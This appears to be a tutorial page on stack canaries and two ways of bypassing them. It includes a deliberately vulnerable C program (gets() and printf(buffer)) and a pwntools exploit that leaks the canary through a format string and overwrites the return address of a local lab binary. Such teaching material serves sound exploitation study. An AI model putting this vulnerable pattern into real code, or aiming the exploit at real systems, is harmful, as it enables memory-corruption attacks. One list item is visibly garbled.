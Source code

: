 # Stack Canaries
A stack canary is a value which the compiler may insert right before the stored base pointer on the stack. When a function is about to return to its caller, the canary is checked for modifications and if it is found to have been changed during the programme's execution, the executable deliberately aborts.

![](Resources/Images/Canaries/Canary%20Memory%20Layout.svg)

![](Resources/Images/Canaries/Stack%20Canary%20Abort%20Example.png)

There are 3 main types of canaries:
- **Random**: a random value generated when the programme is run and remains unchanged throughout its execution
- **Terminator**: a special value which is made up of bytes representing well-known bad characters (such as `0x00`, `0xaf` and ) that aim to prevent canary bypasses by terminating input functions
- **XOR**: a random value XOR-ed with the current saved base pointer which makes the canary unique for every function

In Linux, the canary is generated each time `execve()` is called and is stored at an offset of `0x28` from the `FS` register. Additionally, the last byte of Linux canaries is always `0x00`, so they are actually a mixture of a terminator and a random canary. Unfortunately, this distinction also makes them quite easy to spot.

![](Resources/Images/Canaries/Stack%20Canary%20Assembly.png)

## Bypassing Canaries
There are two main ways of bypassing canaries.

### Leaking the Canary
The first way is to leak the canary, for example by exploiting a format string vulnerability.

```cpp
#include <stdio.h>
#include <string.h>

void deleteDB() {
    puts("Database deleted.");
}

int main() {
    char buffer[64];

    puts("Enter name: ");
    gets(buffer);
    printf(buffer);

    puts("\nEnter age: ");
    gets(buffer);
    puts("Database updated.");
}

```

When we execute the programme, we can abuse the format string vulnerability in `printf(buffer);` to leak data from the stack like so:

![](Resources/Images/Canaries/Canary%20Leak.png)

The highlighted string looks awfully like a canary. We count that this is the 35th value on the stack and so we can check it a few more times just to be sure.

![](Resources/Images/Canaries/Canary%20Leak%20Confirmation.png)

Indeed, it appears to be a random value but always ends in `0x00`. Now that we can leak the canary, we can include it in our buffer overflow at the approriate position and when we would have essentially left the canary unchanged since we would overwrite it with its original value. Now we are ready to prepare our exploit:

```python
#!/usr/bin/python3

from pwn import *

p = process('./canary')

p.recvline() # receive the 'Enter name: ' line
p.sendline("%35$p") # exploit the format string

canary = int(p.recvline(), 16)

exploit = b'A' * 0x48 # overflow the buffer
exploit += p64(canary) # add the canary
exploit += b'A' * 0x8 # padding to the return address (overwriting the saved base pointer)
exploit += p64(0x401156) # address of deleteDB

p.recvline() # receive the 'Enter age: ' line
p.sendline(exploit)

print(p.clean().decode('latin-1'))
```

![](Resources/Images/Canaries/Canary%20Bypass.png)

### Bruteforcing the Canary
This technique abuses the fact that processes which are `fork`-ed from the same process will all share the same canary. This attack, however, is only really feasible on 32-bit machines, since the canary there is 32 bits long.